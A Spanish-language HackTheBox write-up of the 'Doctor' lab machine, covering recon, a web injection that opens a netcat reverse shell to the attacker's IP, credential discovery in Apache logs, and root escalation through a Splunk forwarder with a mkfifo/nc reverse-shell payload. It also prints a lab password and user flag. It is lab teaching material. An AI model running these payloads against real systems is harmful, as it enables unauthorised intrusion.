 ```yaml
---
title: Doctor HTB
author: OxDeed
date: 2021-02-6 13:18:00 -0300
tags: [splunk,ssti,easy,hackthebox]
math: true
image: /htb/doctor/doctor.png
---
```


## Resumen:

Hacemos el primer reconocimiento en el puerto `80 http` donde nos encontraremos con un posible nombre de dominio `doctors.htb`. 

Una vez agregado al file `/etc/hosts/` La pagina nos mostrara un sistema de posts-mensajeria el cual es vulnerable a ataques de tipo server-side-template-injection `(SSTI)`. Si proporcionamos un link en el contenido del mensaje, la maquina accederá al mismo a través de curl, con lo cual podemos craftear un payload y con esto seremos capaces de obtener la primera reverse shell. 

Aún debemos escalar de usuario, y solo bastara con ejecutar un `linepeash.sh` y encontraremos el pass de shaun en los logs de apache.

Como ultimo paso 
nos quedaria la escalacion de privilegios hacia root, donde nos aprovecharemos de la vulnerabilidad del `splunkforwarder` que esta corriendo en el `puerto 8089` con el exploit [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) para finalmente obtener el `root.txt`. 

---

## Pwned
<link rel="stylesheet" type="text/css" href="/assets/css/asciinema-player.css"/>
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
<script type="text/javascript" src="/assets/js/asciinema-player.js"></script>

---

## Reconocimiento
```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 18:06 EST
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.23s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.53 seconds
  ```
---
Como podemos ver hay un correo con un posible nombre de dominio `doctors.htb` 

![Desktop View](/htb/doctor/1.png)
---
## Nombre de Dominio
Lo agregamos en nuestro archivo `hosts` para poder acceder.
```console
nano /etc/hosts
  ```
```console
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209    doctors.htb
  ```
---
## SSTI

Una vez en doctors.htb nos encontramos con un sistema de posts/mensajeria donde tendremos que `registrarnos` y `logearnos`.
![Desktop View](/htb/doctor/4.png)
![Desktop View](/htb/doctor/6.png)
Creamos un nuevo mensaje `New Message`
![Desktop View](/htb/doctor/7.png)

---

La web esta usando `flask` la cual puede ser vulnerable a server-side-template-injection [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34).

![Desktop View](/htb/doctor/12.png)
Capturamos el request con Burp Suite e Inyectamos con el siguiente payload: `title=curl+http%3A%2F%2Fip%2F%24%28nc.traditional%24IFS%252710.10.15.31%2527%24IFS%25274949%2527%24IFS-e%24IFS%2Fbin%2Fsh%29&content=curl http://ip/$(nc.traditional$IFS%2710.10.14.230%27$IFS%274949%27$IFS-e$IFS/bin/sh)dbody&submit=Post`

Una vez dentro, podemos usar nuestra llave pública para logearnos con `ssh`.
```console
web@doctor:~/.ssh$ ls
ls
authorized_keys
``` 
---
<asciinema-player src="/htb/doctor/1.cast" cols="107" rows="24"></asciinema-player>
---
## Privesc Shaun

Subimos el linpeash para enumerar
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [09/Nov/2020 18:48:11] "GET /linpeash.sh HTTP/1.1" 200 -
``` 
---
```console
web@doctor:~$ wget 10.10.15.31/linpeash.sh

--2020-11-10 00:48:10--  http://10.10.15.31/linpeash.sh
Connecting to 10.10.15.31:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294784 (288K) [text/x-sh]
Saving to: ‘linpeash.sh’

linpeash.sh 100%[==========================================================================================>] 287,88K   208KB/s    in 1,4s    

2020-11-10 00:48:12 (208 KB/s) - ‘linpeash.sh’ saved [294784/294784]
``` 

```console
web@doctor:~$ chmod +x linpeash.sh 
```

En los logs del apache nos encontramos con el password del usuario shaun ` Guitar123` . 
```console
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
![Desktop View](/htb/doctor/11.png)

```console
web@doctor:~$ su shaun
Password: Guitar123
```
```console
shaun@doctor:~$ cat user.txt 
5eb4d98c4564ab31f0a9e00c8899d522
```
---

## Privesc Root

Luego de enumerar un poco podemos darnos cuenta que se esta ejecutando el `splunkforwarder`, en este caso, si esta mal configurado podemos escalar privilegios bajo el usuario el cual esta corriendo el forwarder. [**Exploit Splunk Forwarder Explicación**](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)
![Desktop View](/htb/doctor/10.png)

```console
shaun@doctor:/opt$ ls
splunkforwarder
```
```console
tcp        0      0 0.0.0.0:8089            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
```

### Exploiting Splunk Forwarder

Ahora que tenemos información de como podemos explotar el splunk forwarder, nos queda descargarnos la herramienta. [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

Abrimos 2 Shells en la primera: 
```console
kali@kali: python PySplunkWhisperer2_remote.py --lhost 10.10.15.31 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/deed;mkfifo /tmp/deed;cat /tmp/deed|/bin/sh -i 2>&1|nc 10.10.15.31 3748 >/tmp/deed"'
```
En la Segunda nos ponemos a la escucha:
```console
nc -lvnp 3748
listening on [any] 3748 ...
connect to [10.10.15.31] from (UNKNOWN) [10.10.10.209] 54452
/bin/sh: 0: can't access tty; job control turned off
```

---

<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>

---
![Desktop View](/htb/doctor/pwned.gif)

---

## Recursos 

| Topics                       | 
|:-----------------------------|
| [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34) | 
|[**Exploit Splunk Forwarder**](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)     |

---




